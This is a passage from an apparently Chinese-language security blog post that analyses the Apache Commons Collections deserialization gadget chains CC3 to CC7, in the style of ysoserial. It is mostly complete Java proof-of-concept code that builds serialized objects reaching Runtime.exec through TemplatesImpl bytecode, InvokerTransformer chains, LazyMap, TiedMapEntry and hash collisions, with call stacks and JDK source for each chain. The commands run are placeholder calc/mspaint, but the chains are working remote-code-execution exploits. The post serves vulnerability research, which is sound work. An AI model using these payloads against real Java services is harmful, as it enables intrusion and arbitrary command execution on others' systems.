实例化TemplatesImpl对象,并将恶意字节码植入 TemplatesImpl templates = new TemplatesImpl(); Class<? extends TemplatesImpl> templatesClass = templates.getClass(); Field bytecodes = templatesClass.getDeclaredField("_bytecodes"); bytecodes.setAccessible(true); bytecodes.set(templates,new byte[][]{evalByte}); Field name = templatesClass.getDeclaredField("_name"); name.setAccessible(true); name.set(templates,"p1n93r"); ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{ new ConstantTransformer(1) }); // 真正的RCE执行链，调用TrAXFilter构造器时，会调用TemplatesImpl#newTransformer()，之后就是和CC2一样了 Transformer[] trueTransformer = { new ConstantTransformer(TrAXFilter.class), new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates}) }; // 仍旧使用LazyMap即可 HashMap<Object, Object> hashMap = new HashMap<>(); Map evalMap = LazyMap.decorate(hashMap, chainedTransformer); // 创建AnnotationInvocationHandler对象，封装lazyMap Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class); constructor.setAccessible(true); InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, evalMap); // 得到代理Map Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler); // 再次创建AnnotationInvocationHandler对象，封装proxyMap InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap); // 最后再将真正的transformer chain传入,防止反序列化之前在攻击机中就执行了命令 Class<? extends Transformer> chainClass = chainedTransformer.getClass(); Field iTransformers = chainClass.getDeclaredField("iTransformers"); iTransformers.setAccessible(true); iTransformers.set(chainedTransformer,trueTransformer); return res; } public static void main(String[] args)throws Exception { Object payload = getPayload(); SerialUtil.runPayload(payload); } } |
调用栈如下所示：

和CC1一样，利用了AnnotationInvocationHandler，所以需要JDK Version<=JDK8u66。此外，此链中与CC2不同的是， 利用InstantiateTransformer调用TrAXFilter的构造器，触发TemplatesImpl#newTransformer() 。
CC4
给出POC入下所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 |
package com.pinger.javasec.ysoserial; import com.pinger.javasec.util.SerialUtil; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import org.apache.commons.collections4.Transformer; import org.apache.commons.collections4.functors.ChainedTransformer; import org.apache.commons.collections4.functors.ConstantTransformer; import org.apache.commons.collections4.functors.InstantiateTransformer; import org.apache.commons.collections4.comparators.TransformingComparator; import javax.xml.transform.Templates; import java.lang.reflect.Field; import java.util.PriorityQueue; /** * @author : p1n93r * @date : 2021/4/1 21:54 * CC4 Gadget研究 * 和CC2一样，就是将CC2中的InvokerTransformer换成ChainedTransformer */ public class CC4 { public static Object getPayload() throws Exception{ String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"; // 使用javassist生成一个恶意的类 ClassPool classPool = ClassPool.getDefault(); classPool.insertClassPath(new ClassClassPath(CC2.Placeholder.class)); classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath))); CtClass placeholder = classPool.get(CC2.Placeholder.class.getName()); placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName())); // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码 placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");"); placeholder.setName("EvalClass"); // 得到恶意类的字节码 byte[] evalByte = placeholder.toBytecode(); TemplatesImpl templates = TemplatesImpl.class.getConstructor(new Class[0]).newInstance(); Class<? extends TemplatesImpl> clazz = templates.getClass(); // 将恶意字节码填充到TemplatesImpl对象中 Field bytecodes = clazz.getDeclaredField("_bytecodes"); bytecodes.setAccessible(true); bytecodes.set(templates,new byte[][]{evalByte}); // 还需要设置TemplatesImpl对象的_name属性，否则不能顺利执行：TemplatesImpl#getTransletInstance() Field name = clazz.getDeclaredField("_name"); name.setAccessible(true); name.set(templates,"p1n93r"); // 现在TemplatesImpl准备好了，需要一个类反序列化时触发：TemplatesImpl#newTransformer // 使用PriorityQueue类反序列化触发 PriorityQueue<Object> res = new PriorityQueue<>(2); // 为啥不在这个地方添加TemplatesImpl对象：因为add操作会触发比较，而TemplatesImpl没有实现Comparable接口 // 所以只能后面用反射进行添加了 res.add(1); res.add(1); // 现在将TransformingComparator和TemplatesImpl对象设置到PriorityQueue中， // 使得PriorityQueue反序列化时调用TransformingComparator#tranformer(chainedTransformer)，从而触发整个利用链 Class<? extends PriorityQueue> resClazz = res.getClass(); // 就是将CC2中的InvokerTransformer换成ChainedTransformer ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{ new ConstantTransformer(TrAXFilter.class), new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates}) }); // 设置PriorityQueue的comparator Field comparator = resClazz.getDeclaredField("comparator"); comparator.setAccessible(true); comparator.set(res,new TransformingComparator(chainedTransformer)); // 此时和CC2不同的是，不需要在PriorityQueue中添加TemplatesImpl对象了 return res; } public static void main(String[] args)throws Exception { Object payload = getPayload(); SerialUtil.runPayload(payload); } } |
调用栈入下所示，和CC2差不多，就是换了个Transformer而已，需要CommonsCollection4依赖：

CC5
给出POC如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 |
package com.pinger.javasec.ysoserial; import com.pinger.javasec.util.SerialUtil; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ChainedTransformer; import org.apache.commons.collections.functors.ConstantTransformer; import org.apache.commons.collections.functors.InvokerTransformer; import org.apache.commons.collections.keyvalue.TiedMapEntry; import org.apache.commons.collections.map.LazyMap; import javax.management.BadAttributeValueExpException; import java.lang.reflect.Field; import java.util.HashMap; import java.util.Map; /** * @author : p1n93r * @date : 2021/4/1 22:514 * CC5 Gadget分析 * 和CC6类似，只不过最终TiedMapEntry不是放在HashMap和HashSet中,而是放在BadAttributeValueExpException * 注意：仅支持JDK8u5-b01及以上的版本（低于这个版本没有实现readObject()方法） */ public class CC5 { public static Object getPayload() throws Exception{ // 此时内部的Transformer是无效的，避免生成payload过程中提前执行 ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{ new ConstantTransformer(1) }); // 真正的Transformer调用链 Transformer[] trueTransformer = { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}), new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}), new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}) }; HashMap<Object, Object> hashMap = new HashMap<>(); Map evalMap = LazyMap.decorate(hashMap, chainedTransformer); TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test"); BadAttributeValueExpException res = new BadAttributeValueExpException(null); Class<? extends BadAttributeValueExpException> clazz = res.getClass(); Field val = clazz.getDeclaredField("val"); val.setAccessible(true); val.set(res,tiedMapEntry); // 最后记得将真正的Transformer链放入ChainedTransformer Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass(); Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers"); iTransformers.setAccessible(true); iTransformers.set(chainedTransformer,trueTransformer); return res; } public static void main(String[] args)throws Exception { Object payload = getPayload(); SerialUtil.runPayload(payload); } } |
调用栈入下所示，主要是BadAttributeValueExpException#readObject()会触发TiedMapEntry#toString()，而TiedMapEntry#toString()会触发TiedMapEntry#getValue()，最终触发LazyMap#get:

下面看到BadAttributeValueExpException#readObject()，可以看到会调用valObj#toString()：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 |
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
ObjectInputStream.GetField gf = ois.readFields();
Object valObj = gf.get("val", null);
if (valObj == null) {
val = null;
} else if (valObj instanceof String) {
val= valObj;
} else if (System.getSecurityManager() == null
|| valObj instanceof Long
|| valObj instanceof Integer
|| valObj instanceof Float
|| valObj instanceof Double
|| valObj instanceof Byte
|| valObj instanceof Short
|| valObj instanceof Boolean) {
val = valObj.toString();
} else { // the serialized object is from a version without JDK-8019292 fix
val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
}
} |
CC6
直接给出POC，如下所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 |
public static Object getPayload() throws Exception{
// 真正的执行链
Transformer[] trueTransformer = {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"})
};
// 底层还是LazyMap触发Transformer链，先不放真正的Transformer，防止反序列化之前被触发
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(1)
});
// 准备LazyMap，想办法触发LazyMap#get()
HashMap<Object, Object> hashMap = new HashMap<>();
Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
// 将TiedMapEntry作为key放入HashMap，HashMap#readObject会调用hash(key)，和URLDNS类似
HashMap<Object, Object> res = new HashMap<>();
res.put(tiedMapEntry,"something");
// HashMap#put()也会调用hash(key)，所以最终经过LazyMap中的Transformer处理后，LazyMap会多一个键值对{"test":1}
// 所以为了lazyMap#get()顺利执行factory.transform(key)，我们需要在反序列化前将键值对{"test":1}去掉
evalMap.remove("test");
// 最后在chainedTransformer中填入真正的执行链
Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
Field iTransformers = clazz.getDeclaredField("iTransformers");
iTransformers.setAccessible(true);
iTransformers.set(chainedTransformer,trueTransformer);
return res;
} |
调用链如下所示：

HashMap#readObject()中的hash(key)，前面URLDNS分析过了。重点是TiedMapEntry#hashCode()，如下代码所示：
1 2 3 4 5 |
public int hashCode() {
Object value = getValue();
return (getKey() == null ? 0 : getKey().hashCode()) ^
(value == null ? 0 : value.hashCode());
} |
再跟进TiedMapEntry#getValue()，如下代码所示：
1 2 3 |
public Object getValue() {
return map.get(key);
} |
于是顺利调用到了LazyMap#get()，从而触发Transformer达到RCE。
ysoserial给出的链，不是利用HashMap，而是利用HashSet，猜测大佬可能就是纯粹为了炫技咩？？？ysoserial的操作就是对HashSet内部的HashMap进行底层操作，修改HashSet内部HashMap的key为TiedMapEntry而已，而且说实话整个操作不是很优雅，如果硬是要用HashSet，可以使用下面这个改版的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 |
public static Object getPayloadObjectFromYsoserail() throws Exception{
// 此时内部的Transformer是无效的，避免生成payload过程中提前执行
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(1)
});
// 真正的Transformer调用链
Transformer[] trueTransformer = {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
HashMap<Object, Object> hashMap = new HashMap<>();
Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
// 使用HashSet
HashSet<Object> res = new HashSet<>();
res.add(tiedMapEntry);
// 最后再将真正触发RCE的transformer设置到chainedTransformer中
Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
Field iTransformers = clazz.getDeclaredField("iTransformers");
iTransformers.setAccessible(true);
iTransformers.set(chainedTransformer,trueTransformer);
// 因为HashSet#add()会执行hashMap#put()，最终会触发LazyMap#get()，导致LazyMap生成键值对{"test":1}，所以需要remove掉
evalMap.remove("test");
return res;
} |
调用链如下，可以看到，并不是最优的：
1 2 3 4 5 6 7 8 9 10 11 12 |
Gadget chain:
java.io.ObjectInputStream.readObject()
java.util.HashSet.readObject()
java.util.HashMap.put()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
org.apache.commons.collections.functors.ChainedTransformer.transform()
org.apache.commons.collections.functors.InvokerTransformer.transform()
java.lang.reflect.Method.invoke()
java.lang.Runtime.exec() |
CC7
给出POC如下所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 |
package com.pinger.javasec.ysoserial; import com.pinger.javasec.util.SerialUtil; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ChainedTransformer; import org.apache.commons.collections.functors.ConstantTransformer; import org.apache.commons.collections.functors.InvokerTransformer; import org.apache.commons.collections.map.LazyMap; import java.lang.reflect.Field; import java.util.HashMap; import java.util.Map; /** * @author : p1n93r * @date : 2021/4/2 17:28 * CC7 Gadget研究 * 底层也是LazyMap，只不过现在是利用HashTable的hash碰撞触发HashMap#hash(TiedMapEntry) * 然后调用TiedMapEntry#hashCode()，进而触发TiedMapEntry#getValue()-->LazyMap#get() */ public class CC7 { public static Object getPayload() throws Exception{ ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{ new ConstantTransformer(1) }); Transformer[] trueTransformer = { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}), new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}), new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"}) }; HashMap<Object, Object> hashMap1 = new HashMap<>(); HashMap<Object, Object> hashMap2 = new HashMap<>(); // 让两个LazyMap的hashcode相同，于是HashTable反序列化时，会出现hash碰撞 // 且key不能一样，否则LazyMap.get(key)中不会触发transformer hashMap1.put("p1n93r",1); hashMap2.put("p1n93s",6); Map lazyMap1 = LazyMap.decorate(hashMap1, chainedTransformer); Map lazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer); // 使用HashTable和HashMap都一样，只要产生hash碰撞即可 HashMap<Object, Object> res = new HashMap<>(); res.put(lazyMap1,1); res.put(lazyMap2,2); // 最后记得把真正的执行链放入chainedTransformer Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass(); Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers"); iTransformers.setAccessible(true); iTransformers.set(chainedTransformer,trueTransformer); // 因为HashMap#put时就发生了hash碰撞，所以导致LazyMap1内部新增了一个键值对：{"p1n93s",1} // 需要删除，防止反序列化时LazyMap1#get("p1n93s")中不会进入transformer lazyMap1.remove("p1n93s"); return res; } public static void main(String[] args) throws Exception{ Object payload = getPayload(); SerialUtil.runPayload(payload); } } |
调用栈如下所示：

核心思想其实就是，HashMap#readObject()中元素的key发生Hash碰撞时，会进行元素值比较，需要获取元素值嘛，肯定是通过get()获取嘛，这不就触发了LazyMap#get()了~最终触发LazyMap#get()，是在AbstractMap#equals()中，如下所示：

文章作者 P1n93r
上次更新 2021-02-02